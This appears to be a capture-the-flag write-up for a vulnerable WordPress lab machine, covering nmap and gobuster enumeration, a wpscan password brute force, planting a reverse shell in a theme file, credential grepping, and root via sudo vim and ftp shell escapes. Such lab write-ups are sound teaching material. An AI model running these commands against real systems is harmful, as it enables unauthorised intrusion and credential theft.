 tags: #privEsc #easy #gobuster #wpscan #sudoVIM #sudoFTP

IP address: 10.10.64.128
# Enumerations
```
nmap -sC -sV 10.10.250.171 -T5
```
![[Pasted image 20240609193857.png]]
![Pasted image 20240609193857](https://github.com/BGhoster/Write-Ups/assets/43526966/6f731958-4edc-4420-ba9c-9a21f28a5c53)


```
nmap -p- -A 10.10.250.171 -T5
```
![[Pasted image 20240609202648.png]]
![Pasted image 20240609202648](https://github.com/BGhoster/Write-Ups/assets/43526966/3c27e9d4-23d0-4cca-8a2d-ae46d1dea82e)

## Open ports
80: HTTP
4512: ssh
## Usernames/passwords
Hugo
C0ldd:9876543210
Philip


# Gobuster
```python
gobuster dir -u 10.10.250.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```
![[Pasted image 20240609194252.png]]
![Pasted image 20240609194252](https://github.com/BGhoster/Write-Ups/assets/43526966/1146d672-58b9-4d46-8d99-fb766a8419b0)

## Directories
/wp-content (Status: 301) [Size: 319] [--> http://10.10.250.171/wp-content/]

/wp-includes (Status: 301) [Size: 320] [--> http://10.10.250.171/wp-includes/]

/wp-admin (Status: 301) [Size: 317] [--> http://10.10.250.171/wp-admin/]

/hidden (Status: 301) [Size: 315] [--> http://10.10.250.171/hidden/]

# Niko Finds
http://10.10.250.171/xmlrpc.php/
There might be a vulnerability with how XML-RPC is set up. Let's try it

> [!NOTE]
> The main weaknesses associated with XML-RPC are: Brute force attacks: Attackers try to login to WordPress using xmlrpc.php .
> lets see how that is actually done & how you might be able to leverage this while your trying to test a wordpress site for any potential vulnerabilites

Did not find anything with xmlrpc.php

# WP-Scans
```bash
 wpscan --url http://10.10.64.128/ -U c0ldd --password-attack wp-login -P /usr/share/wordlists/rockyou.txt
```
### Scan details
[!] XML-RPC seems to be enabled: http://10.10.64.128/xmlrpc.php  
[!] The version is out of date, the latest version is 3.7
### Found credentials 
**c0ldd:9876543210**
![[Pasted image 20240609204402.png]]
![Pasted image 20240609204402](https://github.com/BGhoster/Write-Ups/assets/43526966/5a0eb63e-28cd-40c2-92e1-150f619f735c)


# Getting reverse shell after log-in
Appearance -> Editor 
We will be using header.php and uploading pentest monkey reverse shell.
```python
http://10.10.64.128/wp-content/themes/twentyfifteen/header.php
```
Visiting the site starts the reverse shell.
# Upgrading shell (MAKE A DOC FOR THIS)
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
export TERRM=xterm
```
```
stty raw -echo && fg    
```

# User.txt
```python
grep -Hrn c0ldd / 2>/dev/null
"""
-H: This option forces grep to always print the filename where the match was found, even if there's only one file being searched. It stands for "print filename".

-r: This option tells grep to search recursively through directories. It stands for "recursive".

-n: This option tells grep to prefix each line of output with the line number within its file. It stands for "line number".
"""
```
- /var/www/html/wp-config.php:22:define('DB_USER', 'c0ldd');

![[Pasted image 20240609210033.png]]
![Pasted image 20240609210033](https://github.com/BGhoster/Write-Ups/assets/43526966/fad8129f-ab7d-4f2d-96f7-85984efa1728)

c0ldd:cybersecurity

```
cat user.txt
```
- RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==

# Root.txt
```
sudo -l
```
![[Pasted image 20240609210351.png]]
![Pasted image 20240609210351](https://github.com/BGhoster/Write-Ups/assets/43526966/d3af7755-0fb4-491c-8d7a-13b603b45e9a)

## VIM
https://gtfobins.github.io/gtfobins/vim/
```
sudo vim -c ':!/bin/sh'
```
- wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE
## FTP
https://gtfobins.github.io/gtfobins/ftp/
```
sudo ftp
```
```
!/bin/sh
```
- wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE
